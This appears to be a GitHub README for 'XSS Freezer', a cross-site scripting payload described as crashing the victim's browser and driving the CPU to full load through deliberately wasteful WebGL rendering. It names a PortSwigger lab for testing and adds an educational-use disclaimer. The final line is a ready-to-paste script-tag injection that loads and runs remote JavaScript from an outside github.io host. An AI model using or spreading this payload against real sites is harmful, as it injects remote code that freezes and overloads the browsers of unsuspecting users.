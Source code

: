 XSS Freezer is an XSS vulnerability payload that crashes the browser and warms up the CPU due to a 100% load. CPU load is achieved due to WebGL 2.0 with extreme settings, complex shaders, mass particle rendering, interactivity, and negative code optimization (i.e. not for the benefit but for the detriment of the user).

For the test, you can run the laboratory in https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

⚠️ Important: This payload is intended solely for educational purposes and testing on protected systems. Use in real attacks violates laws and ethical standards.

https://github.com/user-attachments/assets/e35d05a5-1d54-42a2-89e8-511a6380acd5

------------------------------------------

```<script>var c=document.createElement('canvas');c.id='cpuCanvas';document.body.appendChild(c);var r=document.createElement('script');r.src='//0-dayff13r.github.io/Freezer-XSS/freezer.js';document.body.appendChild(r);</script>```
